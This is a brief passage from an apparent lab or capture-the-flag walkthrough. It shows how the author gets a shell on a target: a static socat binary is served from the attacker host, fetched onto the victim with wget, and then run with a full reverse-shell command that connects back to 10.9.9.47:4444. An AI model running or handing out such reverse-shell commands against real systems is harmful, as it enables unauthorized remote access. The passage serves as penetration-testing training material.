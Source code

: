 I downloaded socat binary from [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat).

On the host machine, I started a Python server within the directory containing socat.

![Python Server](/Gallery/images/Python_Server.png)

On the target machine, I headed to `/var/www/html` directory and downloaded the socat binary using `wget`.

![Socat Binary](/Gallery/images/Socat_Binary.png)

On host machine, I started the socat listener.

![Socat Listener](/Gallery/images/Socat_Listener.png)

Lastly, I issued a `socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.9.9.47:4444` command on the victim and got a socat reverse shell on the host machine.

![Socat Shell](/Gallery/images/Socat_Shell.png)
